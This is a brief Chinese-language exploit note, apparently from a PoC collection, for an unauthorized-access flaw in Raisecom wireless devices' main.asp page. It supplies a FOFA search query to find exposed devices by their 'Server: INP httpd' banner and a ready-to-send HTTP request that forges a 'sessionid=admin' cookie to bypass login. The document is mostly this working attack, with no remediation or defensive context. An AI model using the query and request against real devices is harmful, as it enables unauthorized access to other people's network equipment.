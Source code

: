 # 瑞斯康达main.asp未授权访问漏洞

瑞斯康达 wireless main.asp 存在未授权访问漏洞。

## fofa

```javascript
banner="Server: INP httpd" || header="Server: INP httpd"
```

## poc

```javascript
GET /main.asp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Ge  cko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Cookie: sessionid=admin
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410290944091.webp)